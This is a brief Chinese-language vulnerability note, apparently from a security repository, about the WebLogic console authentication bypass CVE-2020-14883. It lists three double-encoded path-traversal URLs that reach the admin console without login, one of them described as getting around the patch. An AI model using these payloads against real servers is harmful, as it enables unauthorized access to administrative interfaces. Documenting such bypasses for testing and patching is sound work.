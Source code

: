 # weblogic 未授权访问漏洞
>   远程攻击者可以构造特殊的HTTP请求，在未经身份验证的情况下接管 WebLogic Server Console。权限绕过漏洞（CVE-2020-14883），访问以下URL，未授权访问到管理后台页面（低权限的用户）
>

```shell script
/console/images/%252E%252E%252Fconsole.portal
/console/css/%252e%252e%252fconsole.portal  （小写可绕过补丁）
/console/css/%25%32%65%25%32%65%25%32%66console.portal
```

![console](images/console.png)    
此时的权限很低，并不能在后台安装应用